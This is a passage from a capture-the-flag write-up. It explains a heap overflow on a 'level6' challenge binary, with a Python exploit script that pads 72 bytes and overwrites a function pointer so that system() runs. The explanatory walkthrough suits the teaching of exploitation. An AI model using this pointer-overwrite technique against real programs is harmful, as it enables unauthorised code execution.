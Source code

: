 ## Step 4: Crafting the Attack Payload

### Building the Exploit

```python
#!/usr/bin/env python2
import struct

# Our target: function n() which calls system()
n_function = 0x08048454

# Calculate the payload:
offset = 72                                    # Bytes needed to reach funcptr
padding = "A" * offset                         # 72 'A' characters as filler
target_address = struct.pack("<L", n_function) # n() address in little-endian format

payload = padding + target_address
print payload
```

**What this creates:**
```
Payload: "AAAAAAA...AAAAAAA\x54\x84\x04\x08"
         └── 72 A's ──┘ └─ address of n() ─┘
```

## Step 5: The Attack in Motion

### What Happens When You Run the Exploit

When you execute: `./level6 $(python exploit.py)`

**Step-by-step execution:**

1. **Program starts**: `main()` function begins
2. **First malloc(64)**: Creates `buffer1` on the heap
3. **Second malloc(4)**: Creates `funcptr` storage adjacent to `buffer1`
4. **Initialize funcptr**: `*funcptr = m` → function pointer points to 0x08048468 (function m)
5. **strcpy() call**: `strcpy(buffer1, argv[1])` copies our 76-byte payload:
   - **Bytes 1-64**: Fill `buffer1` completely with 'A's
   - **Bytes 65-72**: Overwrite heap metadata with 'A's  
   - **Bytes 73-76**: Overwrite `funcptr` with `\x54\x84\x04\x08` (address of n)
6. **Function call**: `(*funcptr)()` now calls 0x08048454 instead of 0x08048468
7. **Success**: Function n() executes → system() runs → flag displayed!

## Step 6: Memory State Transformation

### Before the Attack
```
Heap Memory (Normal State):
┌─────────────────┬──────────────┬─────────────────┐
│     empty       │ heap headers │   0x08048468   │ ← Points to m()
│   (buffer1)     │              │   (funcptr)    │
└─────────────────┴──────────────┴─────────────────┘
```
